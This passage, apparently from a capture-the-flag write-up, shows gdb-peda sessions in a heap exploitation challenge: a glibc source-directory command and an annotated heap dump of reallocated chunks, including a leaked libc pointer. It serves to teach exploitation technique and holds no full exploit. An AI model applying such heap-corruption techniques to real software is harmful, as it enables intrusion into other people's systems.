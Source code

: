 gdb-peda$ directory $cwd
Source directories searched: $cwd:$cdir
{% endhighlight %}

***As a side note, we also run the `directory $cwd` command in gdb to load our glibc source files in the current directory so that we can perform source-assisted debugging in gdb later when we enter libc functions.*** 

Back to the challenge, now look what our heap looks like after we realloc the small chunks we just freed and write data into them.
{% highlight bash %}
gdb-peda$ x/100xg 0x00005643a4b7c050
0x5643a4b7c050: 0x4242424242424242      0x4242424242424242
0x5643a4b7c060: 0x4242424242424242      0x4242424242424242
0x5643a4b7c070: 0x4242424242424242      0x0000000000000031
0x5643a4b7c080: 0x0000000000000001      0x00005643a4b7c0b0
0x5643a4b7c090: 0x4343434343434343      0x4343434343434343
0x5643a4b7c0a0: 0x0043434343434343      0x0000000000000031
0x5643a4b7c0b0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0c0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0d0: 0x4444444444444444      0x0000000000000031
0x5643a4b7c0e0: 0x0000000000000001      0x00005643a4b7c230
0x5643a4b7c0f0: 0x5858585858585858      0x5858585858585858
0x5643a4b7c100: 0x0058585858585858      0x0000000000000091<-- realloced chunk 1
0x5643a4b7c110: 0x0a5a5a5a5a5a5a5a      0x00005643a4b7c220
0x5643a4b7c120: 0x4646464646464646      0x4646464646464646
0x5643a4b7c130: 0x4646464646464646      0x4646464646464646
0x5643a4b7c140: 0x4646464646464646      0x4646464646464646
0x5643a4b7c150: 0x4646464646464646      0x4646464646464646
0x5643a4b7c160: 0x4646464646464646      0x4646464646464646
0x5643a4b7c170: 0x4646464646464646      0x4646464646464646
0x5643a4b7c180: 0x4646464646464646      0x4646464646464646
0x5643a4b7c190: 0x0000000000000090      0x0000000000000031
0x5643a4b7c1a0: 0x0000000000000001      0x00005643a4b7c1d0
0x5643a4b7c1b0: 0x4747474747474747      0x4747474747474747
0x5643a4b7c1c0: 0x0047474747474747      0x0000000000000031
0x5643a4b7c1d0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1e0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1f0: 0x4848484848484848      0x0000000000000031
0x5643a4b7c200: 0x0000000000000001      0x00005643a4b7c110
0x5643a4b7c210: 0x5858585858585858      0x5858585858585858
0x5643a4b7c220: 0x0058585858585858      0x0000000000000091 <-- realloced chunk 2
0x5643a4b7c230: 0x0a5a5a5a5a5a5a5a      0x00007fd76f204b78
0x5643a4b7c240: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c250: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c260: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c270: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c280: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c290: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2a0: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2b0: 0x0000000000000090      0x0000000000000031
0x5643a4b7c2c0: 0x0000000000000001      0x00005643a4b7c2f0
0x5643a4b7c2d0: 0x4b4b4b4b4b4b4b4b      0x4b4b4b4b4b4b4b4b
0x5643a4b7c2e0: 0x004b4b4b4b4b4b4b      0x0000000000000031
0x5643a4b7c2f0: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c300: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c310: 0x4c4c4c4c4c4c4c4c      0x000000000001fcf1
{% endhighlight %}
